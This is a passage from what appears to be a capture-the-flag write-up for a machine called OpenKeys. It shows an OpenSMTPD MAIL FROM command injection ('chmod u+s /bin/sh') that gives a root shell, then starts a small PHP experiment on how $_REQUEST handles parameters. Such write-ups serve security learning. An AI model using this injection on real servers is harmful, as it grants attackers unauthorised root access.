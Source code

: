 

    openkeys$ nc 127.0.0.1 25 
    220 openkeys.htb ESMTP OpenSMTPD
    HELO jennifer
    250 openkeys.htb Hello jennifer [127.0.0.1], pleased to meet you
    MAIL FROM:<;chmod u+s /bin/sh;>
    250 2.0.0 Ok
    RCPT TO:<jennifer>
    250 2.1.5 Destination address valid: Recipient ok
    DATA
    354 Enter mail, end with "." on a line by itself
    .
    250 2.0.0 fffb5159 Message accepted for delivery



I'm very limited in what kind of command injections I can do, the
maximum length for the address is 64 characters, and any characters in
`!#$%&'*?``{|}~` are escaped to a `:`. The simple payload above works
nicely. After running it, I'll Ctrl-c to kill the connection to SMTP,
and now `/bin/sh` is SUID:



    openkeys$ ls -l /bin/sh
    -r-sr-xr-x  3 root  bin  625032 Oct 12  2019 /bin/sh



Running it returns a root shell:



    openkeys$ /bin/sh
    openkeys# 



### PHP \$\_REQUEST

#### Local Script

Having spent my entire hacking life thinking that `$_REQUEST` checked
only GET and POST parameters, I wanted to play more with this. I wrote a
dumb little PHP program that will inspect and print `$_GET`, `$_POST`,
`$_COOKIE`, and `$_REQUEST`:



    <?php
    echo "GET[test]: " . $_GET['test'] . "\n";
    echo "POST[test]: " . $_POST['test'] . "\n";
    echo "COOKIE[test]: " . $_COOKIE['test'] . "\n";
    echo "REQUEST[test]: " . $_REQUEST['test'] . "\n";
    ?>



I then served it locally using the PHP built-in server:


